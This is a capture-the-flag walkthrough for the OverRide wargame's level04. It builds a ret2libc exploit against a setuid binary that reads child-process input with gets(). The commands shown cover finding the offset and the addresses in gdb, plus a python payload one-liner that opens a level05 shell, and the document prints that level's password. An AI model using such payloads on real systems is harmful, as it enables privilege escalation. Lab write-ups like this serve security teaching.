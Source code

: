 # Walkthrough

## Context

### Binary info

```bash
level04@OverRide:~$ ls -l
total 8
-rwsr-s---+ 1 level05 users 7797 Sep 10  2016 level04
level04@OverRide:~$ ./level04
Give me some shellcode, k
input
child is exiting...
level04@OverRide:~$ file ./level04
./level04: setuid setgid ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.24, BuildID[sha1]=0x7386c3c1bbd3e4d8fc85f88744379783bf327fd7, not stripped
```

An elf binary compiled for Intel 80386 arch with level05's privileges

### Functions

```assembly
(gdb) info functions
All defined functions:

Non-debugging symbols:
...
0x08048634  clear_stdin
0x08048657  get_unum
0x0804868f  prog_timeout
0x080486a0  enable_timeout_cons
0x080486c8  main
...
```

### Variables

```assembly
(gdb) info variables
All defined variables:

Non-debugging symbols:
...
```

No global variables

### 'main' disassembly

```assembly
(gdb) disas main
Dump of assembler code for function main:
...
   0x080486d6 <+14>:    call   0x8048550 <fork@plt>
...
   0x0804875e <+150>:   call   0x80484b0 <gets@plt>
...
End of assembler dump.
```

Please refer to the [source.c](./source.c) for better understanding

So the main function uses 'fork' to clone the process. And after that the parent will just wait for child and the child will be using 'gets' function which is unprotected against buffer overflow attack. We can use it to perform a sub type of buffer overflow attack called 'return to libc' or 'ret2libc'.

## Exploit

Then, to perform a 'ret2libc' attack we need to understand how the call stack is working. Please refer to the [explanation](https://shellblade.net/files/docs/ret2libc.pdf). Basically we need 3 address, the function that will be executed on ret address, the function that will be served as ret address to the first function and the first function arguments. We will be using 'system', 'exit' and '/bin/sh' string address for this. But firstly we need to find the offset of ret address.

### Searching ret offset

```bash
level04@OverRide:~$ gdb -q ./level04
Reading symbols from /home/users/level04/level04...(no debugging symbols found)...done.
(gdb) set follow-fork-mode child
(gdb) run
Starting program: /home/users/level04/level04
[New process 2687]
Give me some shellcode, k
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag

Program received signal SIGSEGV, Segmentation fault.
[Switching to process 2687]
0x41326641 in ?? ()
```

Don't forget to use 'set follow-fork-mode child' to follow the chid process

Our offset is 156. So we need to fill this with trash and then with actual addresses

### Searching needed address

```bash
level04@OverRide:~$ gdb -q ./level04
Reading symbols from /home/users/level04/level04...(no debugging symbols found)...done.
(gdb) break *main
Breakpoint 1 at 0x80486c8
(gdb) run
Starting program: /home/users/level04/level04

Breakpoint 1, 0x080486c8 in main ()
(gdb) p system
$1 = {<text variable, no debug info>} 0xf7e6aed0 <system>
(gdb) p exit
$2 = {<text variable, no debug info>} 0xf7e5eb70 <exit>
(gdb) find &system,+9999999,"/bin/sh"
0xf7f897ec
warning: Unable to access target memory at 0xf7fd3b74, halting search.
1 pattern found.
```

Note how we found '/bin/sh' string with 'find' command. Turns out that such a string already present near 'system' function address.

### Getting .pass

```bash
level04@OverRide:~$ python -c "print 156 * '.' + '0xf7e6aed0'[2:].decode('hex')[::-1] + '0xf7e5eb70'[2:].decode('hex')[::-1] + '0xf7f897ec'[2:].decode('hex')[::-1]" > /tmp/hack
level04@OverRide:~$ cat /tmp/hack - | ./level04
Give me some shellcode, k
whoami
level05
cat /home/users/level05/.pass
3v8QLcN5SAhPaZZfEasfmXdwyR59ktDEMAwHF3aN
```